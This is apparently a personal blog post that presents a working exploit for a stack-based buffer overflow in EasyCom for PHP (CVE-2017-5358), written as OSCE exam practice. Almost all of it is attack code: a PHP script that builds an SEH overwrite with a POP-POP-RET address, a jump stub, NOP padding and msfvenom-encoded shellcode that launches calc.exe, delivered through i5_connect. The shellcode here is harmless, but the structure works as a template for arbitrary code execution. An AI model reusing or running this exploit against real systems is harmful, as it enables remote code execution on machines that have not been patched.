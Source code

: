 ```yaml
---
title: "EasyCom For PHP 4.0.0 - Buffer Overflow Exploit"
date: 2017-11-18 22:00:00
excerpt: "Stack-based buffer overflows in php_Easycom5_3_0.dll in EasyCom for PHP 4.0.0.29 allows remote attackers to execute arbitrary code via the server argument to the (1) i5_connect, (2) i5_pconnect, or (3) i5_private_connect API function."
---
```


John Page (*Hyp3rlinX*) discovered a stack-based buffer overflows in EasyCom for PHP 4.0.0.29 (**CVE-2017-5358**). This security issue allows to a remote attacker to execute arbitrary code via the server argument to the API functions `i5_connect`, `i5_pconnect`, or `i5_private_connect`. All this functions are implemented inside `php_Easycom5_3_0.dll`.

I created a working exploit for fun and as my OSCE exam preparation.

## Environment
* EasycomPHP_4.0029.iC8im2.exe
* PHP 5.3.1 (cli) (built: Nov 20 2009 17:26:32)
* xampp-win32-1.7.3
* Windows XP SP2 32bit

## Exploit
```php
<?php

$nseh = "\xeb\x06\x90\x90";		# JMP ESP+6
$seh = "\x81\x04\x02\x10";		# POP POP RET - xampp\php\php5ts.dll

$jump_to_sc = "\x59\x59\x59";		# POP ECX ; POP ECX ; POP ECX
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xff\xe1"; # JMP ECX

# msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/shikata_ga_nai -f c
# size: 220 bytes
$shellcode = "\xb8\xcd\x5a\x0b\x2d\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1";
$shellcode  = $shellcode . "\x31\x31\x43\x13\x03\x43\x13\x83\xc3\xc9\xb8\xfe\xd1\x39\xbe";
$shellcode  = $shellcode . "\x01\x2a\xb9\xdf\x88\xcf\x88\xdf\xef\x84\xba\xef\x64\xc8\x36";
$shellcode  = $shellcode . "\x9b\x29\xf9\xcd\xe9\xe5\x0e\x66\x47\xd0\x21\x77\xf4\x20\x23";
$shellcode  = $shellcode . "\xfb\x07\x75\x83\xc2\xc7\x88\xc2\x03\x35\x60\x96\xdc\x31\xd7";
$shellcode  = $shellcode . "\x07\x69\x0f\xe4\xac\x21\x81\x6c\x50\xf1\xa0\x5d\xc7\x8a\xfa";
$shellcode  = $shellcode . "\x7d\xe9\x5f\x77\x34\xf1\xbc\xb2\x8e\x8a\x76\x48\x11\x5b\x47";
$shellcode  = $shellcode . "\xb1\xbe\xa2\x68\x40\xbe\xe3\x4e\xbb\xb5\x1d\xad\x46\xce\xd9";
$shellcode  = $shellcode . "\xcc\x9c\x5b\xfa\x76\x56\xfb\x26\x87\xbb\x9a\xad\x8b\x70\xe8";
$shellcode  = $shellcode . "\xea\x8f\x87\x3d\x81\xab\x0c\xc0\x46\x3a\x56\xe7\x42\x67\x0c";
$shellcode  = $shellcode . "\x86\xd3\xcd\xe3\xb7\x04\xae\x5c\x12\x4e\x42\x88\x2f\x0d\x08";
$shellcode  = $shellcode . "\x4f\xbd\x2b\x7e\x4f\xbd\x33\x2e\x38\x8c\xb8\xa1\x3f\x11\x6b";
$shellcode  = $shellcode . "\x86\xb0\x5b\x36\xae\x58\x02\xa2\xf3\x04\xb5\x18\x37\x31\x36";
$shellcode  = $shellcode . "\xa9\xc7\xc6\x26\xd8\xc2\x83\xe0\x30\xbe\x9c\x84\x36\x6d\x9c";
$shellcode  = $shellcode . "\x8c\x54\xf0\x0e\x4c\xb5\x97\xb6\xf7\xc9";

# SEH overwrite      = 1868 bytes
# payload_base       = 00C0F864
# ecx		     = 00C0FCB0
# ecx - payload_base = 1100 bytes

$nop1 = str_repeat("\x90", 1100);
$nop2 = str_repeat("\x90", 1868 - strlen($nop1) - strlen($shellcode));
$nop3 = str_repeat("\x90", 1000);

$payload = $nop1 . $shellcode . $nop2 . $nseh . $seh . $jump_to_sc . $nop3;

$conn = i5_connect($payload, "QPGMR", "PASSW") or die(i5_errormsg());

?>

```

## References
* [hyp3rlinx](http://hyp3rlinx.altervista.org/advisories/EASYCOM-PHP-API-BUFFER-OVERFLOW.txt)
* [SEH exploitation tutorial](http://www.thegreycorner.com/2010/01/seh-stack-based-windows-buffer-overflow.html)
* [exploit-db PoC](https://www.exploit-db.com/exploits/41425/)

The author is not responsible for the misuse of the information provided in this advisory.